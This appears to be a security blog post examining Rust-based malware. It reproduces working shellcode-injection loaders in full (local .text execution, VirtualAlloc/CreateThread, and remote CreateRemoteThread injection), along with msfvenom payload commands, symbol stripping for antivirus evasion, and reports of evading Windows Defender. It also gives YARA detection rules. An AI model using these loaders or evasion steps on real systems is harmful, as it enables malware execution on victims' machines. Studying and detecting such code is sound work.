

# A Closer Look At Rust Based Malware


## Introduction

---

In recent years, we have seen a significant increase in the popularity of the Rust programming language. Debates have arisen around Rust's speed, with some arguing that it is faster than C/C++. Notably, Rust has also been used to write kernel drivers for the Linux kernel, which previously only supported C and Assembly code. Furthermore, many popular command-line tools for Linux have been re-implemented in Rust. One such example is the well-known [bat](https://github.com/sharkdp/bat) tool, a clone of `cat` with syntax highlighting and other features. These made me wonder why is Rust so popular? and how effective it would be for Offensive Purposes.

In this article, we will analyse some malicious Rust binaries and check their behavior against Windows Defender.

!!! Info
Please note, this post is for educational purpose only.<br>
All the malware samples are created using the codes taken from [OffensiveRust](https://github.com/trickster0/OffensiveRust) GitHub repository.
!!!


## Why Rust So Special?

---

Rust is a multi-paradigm, high-level, general-purpose programming language. Rust emphasizes performance, type safety, and concurrency. Rust enforces memory safety—that is, that all references point to valid memory—without requiring the use of a garbage collector or reference counting present in other memory-safe languages.

* It is fast as C and C++ or sometimes even better. 
* It is LLVM based. 
* Easy to cross-compile.

The main reason for its offensive capabilities is the LLVM toolchain, which makes it easier to bypass static analyzers.

## Overview Of Rust Binaries

---

Before testing the Malware Samples, Let's look at a simple calculator program in Rust.

### Creating a Rust Project

`cargo init rust_calc`

``` Project Directory Structure
.
|-- src
|   |-- main.rs
|
|-- .gitignore
|-- Cargo.toml
```

`Cargo.toml` is the config file for cargo package manager. Dependencies and other project configurations can be defined in this file.

```rs main.rs
use std::io;
use std::io::Write;

fn add(num1: i32, num2: i32) -> i32 {
    num1 + num2
}

fn sub(num1: i32, num2: i32) -> i32 {
    num1 - num2
}

fn mul(num1: i32, num2: i32) -> i32 {
    num1 * num2
}

fn div(num1: i32, num2: i32) -> i32 {
    if num2 != 0 {
        return num1 / num2;
    } else {
        println!("Denominator can't be zero");
    }
    return 0
}

fn main() {
    let n1: i32;
    let n2: i32;
    let mut input_buffer = String::new();
    let mut res: i32 = 0;
    
    println!("Calculator");
    println!("1. Addition");
    println!("2. Subtraction");
    println!("3. Multiplication");
    println!("4. Division");
    print!("Enter a option : ");
    io::stdout().flush();
    io::stdin().read_line(&mut input_buffer).expect("Failed to read input");
    let op: i32 = input_buffer.trim().parse().expect("Input is not an integer");
    input_buffer.clear();
    print!("Enter first number : ");
    io::stdout().flush();
    io::stdin().read_line(&mut input_buffer).expect("Failed to read input");
    n1 = input_buffer.trim().parse().expect("Input is not an integer");
    input_buffer.clear();
    print!("Enter second number : ");
    io::stdout().flush();
    io::stdin().read_line(&mut input_buffer).expect("Failed to read input");
    n2 = input_buffer.trim().parse().expect("Input is not an integer");
    
    if op == 1 {    
        res = add(n1, n2);
    } else if op == 2 {
        res = sub(n1, n2);
    } else if op == 3 {
        res = mul(n1, n2);
    } else if op == 4 {
        res = div(n1, n2);
    } else {
        println!("Invalid Option");
    }
    println!("Result : {}", res);
}
```

### Building the Project

`cargo run` to run the debug build.


`cargo build --release` to build the release version. The resulting executable will be found under the `target\release\` directory. Here is the IDA disassembly of the both builds, they are almost same and both include function symbols.

| Debug Build | Release Build |
| ----------- | ------------- |
|  |  |

Function symbols expose so many informations in static analysis, so it should be stripped for better AV evasion. Fortunately, we just need to add a single line in Cargo.toml for stripping function symbols.

```json Cargo.toml
[package]
name = "rust_calc"
version = "0.1.0"
edition = "2021"

[dependencies]

[profile.release]
strip = true
```

As you can see, all the function symbols are stripped and its queit hard to understand the program flow.


Here is the size of different build variants with default optimization.

| Size | Build Type |
| ---- | ---------- |
| 5 MB | Debug (unoptimized) |
| 4.8 MB | Release (optimized + non-stripped) |
| ~1 MB | Release (optimized + stripped) |

## Testing Malware Samples

---


In this section, we are going to test the classic `Process Injection` technique. 
Process injection is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges - *[MITRE T1055](https://attack.mitre.org/techniques/T1055/)*

There are many samples with different types of techniques in OffensiveRust github repo, testing them all will make this blog super lengthy. For now, let's test the `Local Process Injection` and `Remote Process Injection` samples. 

``` Windows Defender Information | Get-MpComputerStatus
AMEngineVersion                  : 1.1.20000.2
AMProductVersion                 : 4.18.2301.6
AMRunningMode                    : Normal
AMServiceEnabled                 : True
AMServiceVersion                 : 4.18.2301.6
AntispywareEnabled               : True
AntispywareSignatureAge          : 0
AntispywareSignatureLastUpdated  : 19-02-2023 13:33:44
AntispywareSignatureVersion      : 1.383.254.0
AntivirusEnabled                 : True
AntivirusSignatureAge            : 0
AntivirusSignatureLastUpdated    : 19-02-2023 13:33:44
AntivirusSignatureVersion        : 1.383.254.0
BehaviorMonitorEnabled           : True
ComputerState                    : 0
DefenderSignaturesOutOfDate      : False
IoavProtectionEnabled            : True
IsTamperProtected                : True
IsVirtualMachine                 : False
NISEnabled                       : True
NISEngineVersion                 : 1.1.20000.2
NISSignatureAge                  : 0
NISSignatureLastUpdated          : 19-02-2023 13:33:44
NISSignatureVersion              : 1.383.254.0
OnAccessProtectionEnabled        : True
ProductStatus                    : 524288
RealTimeProtectionEnabled        : True
```

### Local Process Injection

Source : [OffensiveRust - Shellcode_Local_Inject](https://github.com/trickster0/OffensiveRust/tree/master/Shellcode_Local_inject)

This is the most basic process injection, saving shellcode in the `.text` section of the program and execute it without any API calls.

```rust main.rs
use std::mem;

#[no_mangle]
#[link_section = ".text"]

// msfvenom -p windows/x64/exec CMD=calc.exe -f c
static SHELLCODE : [u8;276] = *b"SHELLCODEHERE";

fn main() {
  let exec_data: extern "C" fn () -> ! = unsafe { mem::transmute(&SHELLCODE as *const _ as *const ()) };
  exec_data();
}
```

Windows Defender easily caught our sample the moment it touched the disk, No wonder because we are putting plain metasploit shellcode in the `.text` section. Metasploit shellcodes are highly signatured, so its pretty hard to get them running most of the time.


Local Process Injection - Shellcode Local Inject Workflow :-

* The `no_mangle` macro disables symbol name encoding, *mangling is the encoding of function and variable names into unique names so that linkers can separate common names in the language. Disabling it is essential for unsafe C codes to access the shellcode*.
* `link_section` specifies the section to use for a function or static, in our sample the shellcode is saved in the `.text` section and As a result, no need to create any RWX memory for our shellcode.
* Finally the function casting `exec_data` eliminates the need for using Windows APIs calls like `CreateThread` etc.


*Shellcode in `.text` section, starts at offset `0xcb6` and ends at offset `0xdc9`* 

Let's do another test, this time using Windows APIs. 

Source : [OffensiveRust - Process Injection Create Thread](https://github.com/trickster0/OffensiveRust/tree/master/Process_Injection_CreateThread)

```json Cargo.toml
[package]
name = "rust_local_inject"
version = "0.1.0"
edition = "2021"

[dependencies]
kernel32-sys = "0.2.2"
winapi = {version = "0.3.8", features=[
    "winnt",
    "memoryapi",
    "errhandlingapi",
    "processthreadsapi",
    "synchapi",
    "winbase",
    "handleapi",
    "libloaderapi"
]}
winreg = "0.10"
argparse = "0.2.2"
clap = "3.1.5"
```

```rs main.rs
use winapi::um::winnt::{PVOID, PROCESS_ALL_ACCESS,MEM_COMMIT,MEM_RESERVE,PAGE_EXECUTE_READWRITE, PAGE_READWRITE, PAGE_EXECUTE_READ};
use std::ptr;
use std::io;
use std::io::prelude::*;
use std::io::{stdin, stdout, Read, Write};
use winapi::um::errhandlingapi;
use winapi::um::processthreadsapi;
use winapi::um::winbase;
use winapi::um::synchapi::WaitForSingleObject;
use std::process;

type DWORD = u32;

fn main(){
    create_thread()
}

fn create_thread() {

    //┌──(kali㉿kali)-[~/Desktop]
    //└─$ msfvenom -p windows/x64/exec CMD="calc.exe" -f csharp
    let test : [u8;276] = [SHELLCODEGOESHERE];


    // allocate base addr as RW
   unsafe{
        let base_addr = kernel32::VirtualAlloc(
            ptr::null_mut(),
            test.len().try_into().unwrap(),
            MEM_COMMIT | MEM_RESERVE,
            PAGE_READWRITE
        );
       
        if base_addr.is_null() { 
            println!("[-] Couldn't allocate memory to current proc.")
        } else {
            println!("[+] Allocated memory to current proc.");
        }

        // copy shellcode into mem
        println!("[*] Copying Shellcode to address in current proc.");

        std::ptr::copy(test.as_ptr() as  _, base_addr, test.len());

        println!("[*] Copied...");

        // Flip mem protections from RW to RX with VirtualProtect. Dispose of the call with `out _`

        println!("[*] Changing mem protections to RX...");

        let mut old_protect: DWORD = PAGE_READWRITE;

        let mem_protect = kernel32::VirtualProtect (
            base_addr,
            test.len() as u64,
            PAGE_EXECUTE_READ,
            &mut old_protect
        );

        if mem_protect == 0 {
            let error = errhandlingapi::GetLastError();
            println!("[-] Error: {}", error.to_string());
            process::exit(0x0100);
        }
        
        // Call CreateThread
        println!("[*] Calling CreateThread...");

        let mut tid = 0;
        let ep: extern "system" fn(PVOID) -> u32 = { std::mem::transmute(base_addr) };

        let h_thread = processthreadsapi::CreateThread(
            ptr::null_mut(),
            0,
            Some(ep),
            ptr::null_mut(),
            0,
            &mut tid
        );

        if h_thread.is_null() {
            let error = unsafe { errhandlingapi::GetLastError() };
            println!("{}", error.to_string())
        
        } else {
            println!("[+] Thread Id: {}", tid)
        }

        // CreateThread is not a blocking call, so we wait on the thread indefinitely with WaitForSingleObject. This blocks for as long as the thread is running

        println!("[*] Calling WaitForSingleObject...");

        let status = WaitForSingleObject(h_thread, winbase::INFINITE);
        if status == 0 {
            println!("[+] Good!")
        } else {
            let error = errhandlingapi::GetLastError();
            println!("{}", error.to_string())
        }
    }
}
```

Local Process Injection - CreateThread Workflow :-

* `VirtualAlloc` allocates memory for shellcode with Read Write Permission on the current process
* Copy the shellcode to allocated memory
* Change the shellcode memory permission/protection to Read Execute using `VirtualProtect`
* Create a new Thread using `CreateThread` with the base address pointing to shellcode memory
* Finally call `WaitForSingleObject` to keep the thread running infinitely

This sample really impressed me, same shellcode but this time shellcode is in stack memory. Literally no detection, the power of Rust obfuscation is really visible here. Windows Defender static analysis were easily defeated.


Next question would be : how can we identify this type of Malware !?

Well, I ran strings on the sample and it wasn't that hard to identify the Windows API functions. Even after using strip option function names were exposed, I guess it has to do with the crates we used.


```json local_inject.yara
rule rust_local_inject : trojan
{
	meta:
		description = "Rust Malware"
		threat_level = 5
		in_the_wild = false
	strings:
		$a = "VirtualAlloc"
		$b = "VirtualProtect"
		$c = "CreateThread"
	condition:
		uint16(0) == 0x5A4D and filesize < 20000KB and any of them
}
```

Finding the correct function in IDA was a bit of annoying, but we can see the shellcode and all other function calls there. 


That's all for Local Process Injection, to make things even harder we can use several types of obfuscations on strings and shellcodes, hide the Windows API function traces by manually implementing them and so on. [litcrypt crate](https://www.secureideas.com/blog/how-to-obfuscate-strings-in-rust-the-easy-way-using-the-litcrypt-crate) is an example for string obfuscation.

### Remote Process Injection

Remote Process Injection is quiet different from the Local Process Injection. In this technique we are loading shellcode or DLL into the memory space of a running process and execute in its context. Imagine 😁


Source : [OffensiveRust - Process_Injection_CreateRemoteThread](https://github.com/trickster0/OffensiveRust/tree/master/Process_Injection_CreateRemoteThread)

```rs
extern crate kernel32;
use winapi::um::winnt::{PROCESS_ALL_ACCESS,MEM_COMMIT,MEM_RESERVE,PAGE_EXECUTE_READWRITE};
use winapi::um::tlhelp32::{TH32CS_SNAPPROCESS, Process32First, Process32Next, CreateToolhelp32Snapshot};
use winapi::um::handleapi::CloseHandle;
use winapi::um::tlhelp32::PROCESSENTRY32;
use std::ptr;
use std::env;
use std::ffi::CString;
use std::process;
use std::convert::TryInto;
use winapi::um::winuser::MessageBoxA;
use std::{thread, time};

// Find Process ID , I chose the C++ way of doing this, ofcourse you can use rust crates to do the same job
fn find_proc_id(proc_name: &str) -> u32 {
    let h_snapshot = unsafe { CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0) };
    if h_snapshot == ptr::null_mut() {
        return 0;
    }

    let mut pe =  PROCESSENTRY32 {
        dwSize: std::mem::size_of::<PROCESSENTRY32>() as u32,
        cntUsage: 0,
        th32ProcessID: 0,
        th32DefaultHeapID: 0,
        th32ModuleID: 0,
        cntThreads: 0,
        th32ParentProcessID: 0,
        pcPriClassBase: 0,
        dwFlags: 0,
        szExeFile: [0; 260],
    };

    let h_result = unsafe { Process32First(h_snapshot, &mut pe) };
    if h_result == 0 {
        unsafe { CloseHandle(h_snapshot) };
        return 0;
    }

    let proc_name = CString::new(proc_name).unwrap();
    let mut pid: u32 = 0;

    while h_result != 0 {
        let exe_file = unsafe { std::ffi::CStr::from_ptr(pe.szExeFile.as_ptr()) };
        if exe_file.to_str().unwrap() == proc_name.to_str().unwrap() {
            pid = pe.th32ProcessID;
            break;
        }
        let h_result = unsafe { Process32Next(h_snapshot, &mut pe) };
    }

    unsafe { CloseHandle(h_snapshot) };
    pid
}


fn remote_injection() {
    let shellcode : [u8; SHELLCODESIZE] = [SHELLCODEGOESHERE];
    let args: Vec<String> = env::args().collect();
    let pid = find_proc_id(&args[1]);
    let mut tid = 0;
    println!("[+] Found Process ID : {}", pid);
    let h_process = unsafe {kernel32::OpenProcess(PROCESS_ALL_ACCESS, winapi::shared::ntdef::FALSE.into(), pid)};
    println!("[+] Found Process Handle for process {} : {:?}", pid, &h_process);
    let base_addr = unsafe {kernel32::VirtualAllocEx(h_process, ptr::null_mut(), shellcode.len() as u64, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)};
    println!("[+] Allocated {} bytes of memory for shellcode", shellcode.len());
    let mut nbytes = 0;
    unsafe {kernel32::WriteProcessMemory(h_process, base_addr, shellcode.as_ptr() as _, shellcode.len() as u64, &mut nbytes);}
    println!("[+] Copied shellcode to process memory ");
    let h_thread = unsafe {kernel32::CreateRemoteThread(h_process, ptr::null_mut(), 0, Some(std::mem::transmute(base_addr)), ptr::null_mut(), 0, &mut tid)};
    println!("[+] Thead Created \n Thread ID : {}", tid);
    unsafe {kernel32::CloseHandle(h_process);}
}

fn main() {
    remote_injection();
    unsafe {MessageBoxA(ptr::null_mut(),"HAHAHA , Your System is Hacked\0".as_ptr() as *const i8,"Owned Boiii\0".as_ptr() as *const i8,0x00004000);}
}
```

Remote Process Injection - CreateRemoteThread Workflow :-

* We input a process name in command-line arguement to our sample , eg:- `rust_mal.exe notepad.exe`
* The pid of given process is looked up with the help of [CreateToolhelp32Snapshot](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) Windows API function
* `OpenProcess` opens the given remote process with `PROCESS_ALL_ACCESS` (Gives all possible access rights)
* `VirtualAllocEx` allocate memory in the remote process with RWX permission
* Write shellcode to the allocated memory using `WriteProcessMemory` 
* Create a thread in the remote process with `CreateRemoteThread` function, just like in previous sample we point the base address to the shellcode memory
* Finally close the process handle

In the latest Windows Defender update this sample was easily caught, but when I tested this sample before `14/02/2023` it was working rather well.

<video autoplay controls>
<source src="/assets/videos/rust_remote_thread.mp4" type="video/mp4">
</video>
<br>

```json remote_inject.yara
rule rust_malware : trojan
{
	meta:
		description = "Rust Malware"
		threat_level = 5
		in_the_wild = false
	strings:
		$a = "NtOpenProcess"
		$b = "OpenProcess"
		$c = "VirtualAllocEx"
		$d = "CreateRemoteThread"
	condition:
		uint16(0) == 0x5A4D and filesize < 20000KB and any of them
}
```
## Final Thoughts

!!! Info
When I tested each of these samples with Avast Free Antivirus, all of them were caught instantly. Its anti-exploit protection is impressive. Of course, highly sophisticated threat actors won't use these simple methods, but at least it can prevent skiddies.
!!!

To be honest, I was scared to see these samples in action. Rust's ability to bypass static analysis and even behavior analysis against Windows Defender is really impressive. I suggest you to install a better antivirus program such as Avast, Norton, etc. and also avoid running untrusted programs.

On top of that, use a Firewall as well for better protection,<br> (program in screenshot : [simplewall](https://www.henrypp.org/product/simplewall))



I hope you have gained new knowledge by reading my article. If you enjoyed it, please support me through the Buy Me a Coffee link on my About page. Thank You :)

## References

[https://rayoflightz.github.io/re/rust/2020/05/19/Bite-Sized-Rust-RE-1-Deconstructing-Hello-World.html](https://rayoflightz.github.io/re/rust/2020/05/19/Bite-Sized-Rust-RE-1-Deconstructing-Hello-World.html)<br>
[https://www.pwnthebox.net/rust/2020/11/01/deciphering-no-mangle.html](https://www.pwnthebox.net/rust/2020/11/01/deciphering-no-mangle.html)<br>
[https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html)<br>
[https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html)

